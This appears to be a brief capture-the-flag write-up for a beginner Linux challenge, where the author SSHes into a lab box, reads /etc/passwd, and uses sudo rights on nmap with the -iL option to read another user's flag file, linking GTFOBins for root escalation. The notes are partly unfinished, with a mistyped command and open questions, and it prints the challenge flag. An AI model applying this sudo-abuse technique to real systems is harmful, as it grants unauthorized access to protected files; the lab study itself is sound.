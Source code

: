 # Linux (Viper) - Nmap (7)

## Challenge
On the box, you are allowed to use nmap as another user. What can you do with these new privileges? Are you able to read the secret files from the user's home directory?
<br><br>
Note: use the SSH key from the first Linux challenge to log into the box.

## Steps
1. `ssh nmapuser@beginner-linux.hfctf.ca -i /tmp/mozilla_kali0/id_ed25519`
2. `cat /etc/passwd` to check list of users -> `nmapuser:x:1004:1004::/home/nmapuser:/bin/sh`
3. `cd /home/nmapuser`
4. `ls -la` and `cat flag.txt` -> `-r--------  1 nmapuser root       36 Jun 14  2019 flag.txt`
5. I THING I NEED TO DO THE SUDO AND VIM CHALLENGE BEFORE
6. `sudo -u nmapuser /usr/bin/nmap -sT -Pn -p 22 -iL flag.txt` 
or try this more simple way : `udo -u nmapuser nmap -iL flag.txt` ???

## Helpful reading
<a href="https://security.stackexchange.com/questions/223931/nmap-how-can-i-input-a-target-to-nmap-from-a-file-with-the-netmask-attached">WHere I found the nmap command</a>
<a href="https://gtfobins.github.io/gtfobins/nmap/#sudo">Not try, but how to become root</a>

## Flag
`HF-B2C56B421F6229316B00A973586AAAD1`
